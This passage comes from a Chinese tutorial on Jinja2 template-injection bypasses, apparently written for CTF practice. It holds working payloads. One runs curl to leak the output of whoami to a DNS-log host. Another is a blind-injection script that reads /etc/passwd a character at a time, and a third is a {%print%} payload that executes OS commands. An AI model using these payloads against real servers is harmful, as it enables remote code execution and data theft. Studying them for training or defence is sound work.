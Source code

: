 
用`{%%}`替代了`{{}}`，使用判断语句进行 dns 外带数据

```
{% if ().__class__.__base__.__subclasses__()[433].__init__.__globals__['popen']("curl `whoami`.k1o75b.ceye.io").read()=='kawhi' %}1{% endif %}
```

然后在 ceye 平台接收数据即可

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfP3o9TibDf1JBXWRqr32SuHmd6B7kEQplegOr5UPgBdb3VOe5NXSicw0LFPibibHYcN5NctKn7q4I3ag/640?wx_fmt=png)

*   盲注
    

如果上面的方法不行的话，可以考虑使用盲注的方式，这里附上 p0 师傅的脚本

```
# -*- coding: utf-8 -*-
import requests

url = 'http://ip:5000/?name='

def check(payload):
    r = requests.get(url+payload).content
    return 'kawhi' in r

password  = ''
s = r'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$\'()*+,-./:;<=>?@[\\]^`{|}~\'"_%'

for i in xrange(0,100):
    for c in s:
        payload = '{% if ().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__.open("/etc/passwd").read()['+str(i)+':'+str(i+1)+'] == "'+c+'" %}kawhi{% endif %}'
        if check(payload):
            password += c
            break
    print password
```

*   `print`标记
    

我们上面之所以要 dnslog 外带数据以及使用盲注，是因为用`{%%}`会没有回显，这里的话可以使用`print`来做一个标记使得他有回显，比如`{%print config%}`，payload 如下

```
{%print ().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")%}
```

payload 进阶与拓展
-------------

这里我基于上面绕过黑名单各种方法的组合，对 CTF 中用到的一些方法和 payload 再做一个小的总结，不过其实一般来说，只要不是太偏太绕的题，上面的方法自行组合一下都够用了，下面只是作为一个拓展

### 过滤`_`和`.`和`'`
